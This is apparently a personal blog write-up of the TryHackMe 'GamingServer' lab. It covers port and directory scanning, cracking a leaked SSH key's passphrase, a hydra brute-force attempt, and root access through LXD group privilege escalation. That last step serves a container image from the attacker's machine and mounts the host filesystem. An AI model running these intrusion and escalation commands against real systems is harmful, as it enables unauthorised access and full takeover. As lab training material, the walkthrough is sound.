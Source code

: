 ```yaml
---
title: TryHackMe - GamingServer
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, ssh, brute, lxd]
---
```


# GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

## Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/GamingServer/1.png)

## /secrets  
![](/assets/img/GamingServer/2.png)  
I got a secret file that after downloading i found that it was a `ssh RSA`  
![](/assets/img/GamingServer/3.png)  


![](/assets/img/GamingServer/4.png)
surfing through the web i get an upload directory.
## /uploads
![](/assets/img/GamingServer/5.png)

I downloaded the dict.lst file that contains a list of i think passwords or usernames.  
![](/assets/img/GamingServer/6.png)

- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`



## source-code
Going back i got a comment from the dev.  
![](/assets/img/GamingServer/7.png)


## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```
![](/assets/img/GamingServer/8.png)

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```
![](/assets/img/GamingServer/9.png)
---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  
![](/assets/img/GamingServer/10.png)

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```
![](/assets/img/GamingServer/11.png)

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

![](/assets/img/GamingServer/12.png)
